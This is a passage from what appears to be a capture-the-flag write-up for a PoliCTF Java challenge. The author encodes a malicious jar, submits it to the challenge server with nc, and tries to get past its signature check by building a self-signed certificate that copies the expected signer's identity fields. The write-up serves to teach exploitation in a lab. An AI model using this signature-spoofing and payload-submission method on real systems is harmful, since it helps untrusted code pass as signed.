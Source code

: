                 outputStream.write((byte) read);
            }
            outputStream.write((byte) EXIT_BYTE);
        } catch (IOException e){
            e.printStackTrace();
        }
    }
}
</code></pre>
To make sure my encoder worked I compiled it, ran it on the decoded.jar file that was created earlier by the Decode class, and diffed the resulting encoded.jar with the provided ShamanoCakeContainerEncoded.jar file. 
<pre><code>
javac Encode.java
java Encode < decoded.jar
diff encoded.jar ShamanoCakeContainerEncoded.jar
</code></pre>
No output meant no difference! It seems like it worked. I sent the encoded.jar file to the server to make sure and it worked. I sent the pwndcake.jar file hoping for a flag back, but there was one more obstacle to overcome.
<pre><code>
java Encode < pwndcake.jar
nc pastry.polictf.it 80 < encoded.jar
Welcome to John's Pastry Shop!
[Error] The cake container has unsigned class files. Exit now..
</code></pre>
Signing a jar can be confusing. You have to generate a keystore with keytool and then sign it with jarsigner. I thought that just signing it would be enough.
<pre><code>
keytool -genkey -alias poli
Enter keystore password:  
What is your first and last name?
  [Unknown]:  
What is the name of your organizational unit?
  [Unknown]:  
What is the name of your organization?
  [Unknown]:  
What is the name of your City or Locality?
  [Unknown]:  
What is the name of your State or Province?
  [Unknown]:  
What is the two-letter country code for this unit?
  [Unknown]:  
Is CN=Unknown, OU=Unknown, O=Unknown, L=Unknown, ST=Unknown, C=Unknown correct?
  [no]:  yes
Enter key password for <poli>
        (RETURN if same as keystore password):  
jarsigner pwndcake.jar poli
java Encode < pwndcake.jar
nc pastry.polictf.it 80 < encoded.jar
Welcome to John's Pastry Shop!
[Error] The cake container was not signed by the expected Shamano baker. Exit now..
</code></pre>
Okay, so I need to make sure it's signed correctly. I didn't have the Shamano baker's private keystore for signing so I went to inspecting the jarfile with jarsigner
<pre><code>
jarsigner -verify -verbose -certs decoded.jar
         177 Wed Apr 15 18:28:26 EDT 2015 META-INF/MANIFEST.MF
         298 Wed Apr 15 18:28:26 EDT 2015 META-INF/SHAMANO_.SF
        1441 Wed Apr 15 18:28:26 EDT 2015 META-INF/SHAMANO_.RSA
sm       676 Wed Apr 15 18:26:50 EDT 2015 it/polimi/necst/johncakedesigner/NewYorkCheeseCake.class
      X.509, CN=Shamano Pastry Shop, OU=Shamano Cooking Service, O=Shamano Inc., L=Milano, ST=Italy, C=IT
      [certificate is valid from 4/15/15 8:31 AM to 8/31/42 8:31 AM]
  s = signature was verified 
  m = entry is listed in manifest

  [Unknown]:  Shamano Pastry Shop
  [Unknown]:  Shamano Cooking Service
  [Unknown]:  Shamano Inc.
  [Unknown]:  Milano
  [Unknown]:  Italy
  [Unknown]:  IT